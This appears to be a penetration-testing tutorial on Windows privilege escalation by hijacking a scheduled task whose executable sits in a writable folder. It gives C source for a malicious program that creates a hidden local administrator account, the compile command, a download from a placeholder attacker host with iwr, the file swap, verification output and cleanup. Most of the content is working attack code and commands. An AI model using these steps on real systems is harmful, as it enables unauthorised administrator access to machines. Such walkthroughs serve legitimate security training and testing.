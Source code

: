 ## Scheduled Tasks

### Overview
Windows Task Scheduler automates tasks such as updates, cleanup activities, or custom scripts. Each task contains **triggers** (conditions to execute) and **actions** (programs or scripts to run). If a scheduled task:
1. Runs as a privileged user (e.g., `SYSTEM` or `Administrator`), and
2. The specified action points to a writable executable or script,

then it can be abused for **privilege escalation**.

This tutorial will demonstrate how to identify and exploit misconfigured scheduled tasks.

---

### Step 1: Enumerate Scheduled Tasks
To identify tasks that may lead to privilege escalation, run **WinRecon.ps1**:

1. **Option 2**: Run Custom Recon - (Select which functions to enable).
2. **Option 17**: Enumerate scheduled tasks and check for writable executables.

#### Example Output:
```plaintext
===================================================

              Scheduled Tasks Check

===================================================

[+] Task Name: \Microsoft\CacheCleanup
    Author: CLIENTWK220\daveadmin
    Task To Run: C:\Users\steve\Pictures\BackendCacheCleanup.exe
    Run As User: daveadmin
    Status: Ready
    Next Run Time: 2024-06-01 12:00:00 AM
    Permissions: Writable
```

In this example, the scheduled task **\Microsoft\CacheCleanup**:
- Runs as `daveadmin` (a privileged user).
- Executes `BackendCacheCleanup.exe`, located in a writable directory: `C:\Users\steve\Pictures`.
- Runs frequently, as indicated by the **Next Run Time**.

---

### Step 2: Verify Permissions on the Executable
Confirm that you have **Full Control** or **Write** permissions on the executable file specified in the task action:

```powershell
icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
```

**Output Example**:
```plaintext
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(F)
                                                  BUILTIN\Administrators:(F)
                                                  CLIENTWK220\steve:(F)
```

The `(F)` indicates **Full Control**, meaning we can replace the executable.

---

### Step 3: Create a Malicious Executable
The goal is to replace the executable file with a malicious version that creates a local administrator user.

#### Malicious Executable Code
We will use C code to add a user and place them in the Administrators group:

```c
#include <stdlib.h>

int main() {
    system("net user taskmgrsvc Password123! /add");
    system("net localgroup administrators taskmgrsvc /add");
    return 0;
}
```

#### Compile the Executable
On your attacker machine, compile the C code:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

---

### Step 4: Replace the Scheduled Task Executable
Transfer the malicious executable to the target machine and replace the original task file:

1. Host the file using a Python HTTP server:
   ```bash
   python3 -m http.server 80
   ```
2. On the target machine, download the malicious file:
   ```powershell
iwr -Uri http://<attacker_ip>/adduser.exe -OutFile BackendCacheCleanup.exe
   ```
3. Backup the original executable and replace it:
   ```powershell
   move C:\Users\steve\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak
   move .\BackendCacheCleanup.exe C:\Users\steve\Pictures\
   ```
---

### Step 5: Wait for the Task to Execute
The scheduled task will execute automatically based on its trigger. Since this task runs every minute, wait for a short time, then verify that the malicious executable has been executed.

---

### Step 6: Verify Exploitation
Check if the user `taskmgrsvc` has been created and added to the local Administrators group:

1. List all user accounts:
   ```powershell
   net user
   ```
2. Verify the Administrators group:
   ```powershell
   net localgroup administrators
   ```

**Output Example**:
```plaintext
User accounts for \CLIENTWK220
-------------------------------------------------------------------------------
Administrator            taskmgrsvc              DefaultAccount

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that the user `taskmgrsvc` was successfully added to the Administrators group.

---

### Step 7: Cleanup
Restore the original executable and clean up any traces of the exploit:

1. Delete the malicious executable:
   ```powershell
   del C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
2. Restore the original file:
   ```powershell
   move BackendCacheCleanup.exe.bak C:\Users\steve\Pictures\BackendCacheCleanup.exe
   ```
3. Remove the created user:
   ```powershell
   net user taskmgrsvc /delete
   ```

---

### References
- [HackTricks - Scheduled Tasks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/scheduled-tasks)

---

